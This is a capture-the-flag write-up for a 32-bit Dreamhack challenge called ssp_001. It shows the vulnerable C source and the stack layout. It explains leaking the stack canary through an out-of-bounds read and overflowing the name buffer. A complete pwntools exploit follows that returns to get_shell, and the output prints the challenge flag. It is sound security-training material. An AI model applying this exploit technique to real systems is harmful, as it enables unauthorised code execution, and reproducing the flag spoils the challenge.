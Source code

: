 ### Overview
This is a typical x86 32bits pwnable ctf challenge.
Our goal is override canary value and override return address to get_shell address to get shell and cat flag!

Let's analyze the source code :

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```
The stack frame of this challenge:
```
 [ebp+4]     : Return address
  [ebp]      : Saved EBP
  [ebp-0x8]   : Canary (4 bytes)
  [ebp-0x48]   : name[0x40] (64 bytes)
  [ebp-0x88]   : box[0x40] (64 bytes)
```

And this challenge canary was found when using `checksec` 
First we should find a way to leak Canary value. After looked at the code, i saw that critical vulnerability named out of bound in print_box() function:

```c
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
```
We can leak 2 value a time when call this function, so we will call 4 times to leak 4 bytes canary from this function.

After leak Canary value, we will override it and return address to `get_shell` function from this vulnerability:

```c
case 'E':
    printf("Name Size : ");
    scanf("%d", &name_len);
    printf("Name : ");
    read(0, name, name_len);
    return 0;
```
Combine with these lines from assembly code of main:
```
   0x0804886c <+321>:   mov    edx,DWORD PTR [ebp-0x8]
   0x0804886f <+324>:   xor    edx,DWORD PTR gs:0x14
   0x08048876 <+331>:   je     0x8048884 <main+345>
   0x08048878 <+333>:   jmp    0x804887f <main+340>
   0x0804887a <+335>:   jmp    0x8048790 <main+101>
   0x0804887f <+340>:   call   0x80484e0 <__stack_chk_fail@plt>
   0x08048884 <+345>:   mov    edi,DWORD PTR [ebp-0x4]
   0x08048887 <+348>:   leave
   0x08048888 <+349>:   ret
End of assembler dump.
```
Yeah, we can start override from `name` so the payload is:

`` 64 bytes buf + 4 bytes canary + 4 bytes saved edi + 4 bytes saved ebp + 4 bytes return address``

### Exploitation
```py
from pwn import *
p = remote('host1.dreamhack.games', 14124)
elf = ELF('./ssp_001')
# Convert the canary from string to bytes properly

canary = b''
for i in range(4):
    p.sendline(b'P')
    p.recvuntil(b'Element index : ')
    p.sendline(str(128 + i).encode())
    p.recvuntil(b'Element of index ')
    p.recvuntil(b'is : ')
    value = p.recvline().strip()
    canary += bytes.fromhex(value.decode())
print(canary)
canary = u32(canary)

payload = 64*b'A' + p32(canary)*3  + p32(elf.sym['get_shell'])
p.recvuntil('> ')
p.sendline(b'E\n')
p.sendafter('Name Size : ', b'100\n')
p.sendafter('Name : ', payload)
p.interactive()
```

Result:
```bash
$ python3 exploit.py
[+] Opening connection to host1.dreamhack.games on port 14124: Done
[*] '/home/khanh/Documents/WorkSpaceDreamHack/PWN-dreamhack/ssp_001/ssp_001'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
b'\x00V8\x1b'
/home/khanh/Documents/WorkSpaceDreamHack/PWN-dreamhack/ssp_001/exploit.py:20: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('> ')
/home/khanh/.local/lib/python3.12/site-packages/pwnlib/tubes/tube.py:831: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
$ ls
flag
run.sh
ssp_001
$ cat flag
DH{00c609773822372daf2b7ef9adbdb824}$ 
```